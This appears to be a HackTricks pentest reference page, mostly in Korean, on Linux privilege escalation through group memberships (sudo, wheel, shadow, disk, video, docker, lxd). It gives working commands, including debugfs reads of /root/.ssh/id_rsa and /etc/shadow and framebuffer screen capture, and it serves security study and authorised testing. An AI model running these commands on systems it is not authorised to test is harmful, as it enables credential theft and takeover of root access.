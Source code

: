 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Sudo/Admin Groups

## **PE - Method 1**

**때때로**, **기본적으로 \(또는 일부 소프트웨어가 필요하기 때문에\)** **/etc/sudoers** 파일 안에서 다음과 같은 줄을 찾을 수 있습니다:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
이것은 **sudo 또는 admin 그룹에 속한 모든 사용자가 sudo로 무엇이든 실행할 수 있음을 의미합니다**.

이 경우, **root가 되려면 다음을 실행하면 됩니다**:
```text
sudo su
```
## PE - Method 2

모든 suid 바이너리를 찾아보고 **Pkexec** 바이너리가 있는지 확인하십시오:
```bash
find / -perm -4000 2>/dev/null
```
만약 pkexec 바이너리가 SUID 바이너리이고 당신이 sudo 또는 admin 그룹에 속한다면, pkexec를 사용하여 sudo로 바이너리를 실행할 수 있을 것입니다. 다음 내용을 확인하세요:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
여기에서 어떤 그룹이 **pkexec**를 실행할 수 있는지 확인할 수 있으며, **기본적으로** 일부 리눅스에서는 **sudo 또는 admin** 그룹이 **나타날 수 있습니다**.

**루트가 되려면 다음을 실행할 수 있습니다**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
만약 **pkexec**를 실행하려고 시도했는데 이 **오류**가 발생한다면:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**권한이 없어서가 아니라 GUI 없이 연결되어 있지 않기 때문입니다**. 이 문제에 대한 해결 방법은 여기에서 확인할 수 있습니다: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). **2개의 서로 다른 ssh 세션**이 필요합니다:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Wheel Group

**때때로**, **기본적으로** **/etc/sudoers** 파일 안에서 이 줄을 찾을 수 있습니다:
```text
%wheel	ALL=(ALL:ALL) ALL
```
이것은 **wheel 그룹에 속한 모든 사용자가 sudo로 모든 것을 실행할 수 있음을 의미합니다**.

이 경우, **root가 되려면 다음을 실행하면 됩니다**:
```text
sudo su
```
# Shadow Group

**shadow** 그룹의 사용자들은 **/etc/shadow** 파일을 **읽을** 수 있습니다:
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
So, read the file and try to **crack some hashes**.

# Disk Group

이 권한은 거의 **루트 접근과 동등**하며, 머신 내부의 모든 데이터에 접근할 수 있습니다.

Files:`/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Note that using debugfs you can also **write files**. For example to copy `/tmp/asd1.txt` to `/tmp/asd2.txt` you can do:  
디버그 파일 시스템(debugfs)을 사용하면 **파일을 쓸 수** 있다는 점에 유의하세요. 예를 들어 `/tmp/asd1.txt`를 `/tmp/asd2.txt`로 복사하려면 다음과 같이 할 수 있습니다:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
그러나 **root가 소유한 파일** \(예: `/etc/shadow` 또는 `/etc/passwd`\)에 **쓰기**를 시도하면 "**Permission denied**" 오류가 발생합니다.

# 비디오 그룹

`w` 명령어를 사용하면 **시스템에 로그인한 사람**을 찾을 수 있으며, 다음과 같은 출력을 보여줍니다:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
The **tty1**는 사용자 **yossi가 물리적으로** 머신의 터미널에 로그인했음을 의미합니다.

**video group**은 화면 출력을 볼 수 있는 권한이 있습니다. 기본적으로 화면을 관찰할 수 있습니다. 이를 위해서는 **현재 화면의 이미지를** 원시 데이터로 가져오고 화면이 사용하는 해상도를 알아야 합니다. 화면 데이터는 `/dev/fb0`에 저장할 수 있으며, 이 화면의 해상도는 `/sys/class/graphics/fb0/virtual_size`에서 찾을 수 있습니다.
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
**원시 이미지**를 **열기** 위해 **GIMP**를 사용하고 **`screen.raw`** 파일을 선택한 후 파일 형식으로 **원시 이미지 데이터**를 선택할 수 있습니다:

![](../../.gitbook/assets/image%20%28208%29.png)

그런 다음 너비와 높이를 화면에서 사용된 값으로 수정하고 다양한 이미지 유형을 확인한 후 (화면을 더 잘 보여주는 것을 선택합니다):

![](../../.gitbook/assets/image%20%28295%29.png)

# 루트 그룹

기본적으로 **루트 그룹의 구성원**은 **서비스** 구성 파일이나 일부 **라이브러리** 파일 또는 권한 상승에 사용할 수 있는 **기타 흥미로운 것들**을 **수정**할 수 있는 접근 권한이 있는 것 같습니다...

**루트 구성원이 수정할 수 있는 파일 확인**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Docker Group

호스트 머신의 루트 파일 시스템을 인스턴스의 볼륨에 마운트할 수 있으므로, 인스턴스가 시작될 때 즉시 해당 볼륨에 `chroot`를 로드합니다. 이는 사실상 머신에서 루트를 제공하는 것입니다.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# lxc/lxd Group

[lxc - Privilege Escalation](lxd-privilege-escalation.md)


<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

[**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection)를 사용하여 세계에서 **가장 진보된** 커뮤니티 도구로 **워크플로우**를 쉽게 구축하고 **자동화**하세요.\
지금 바로 액세스하세요:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 **팔로우**하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
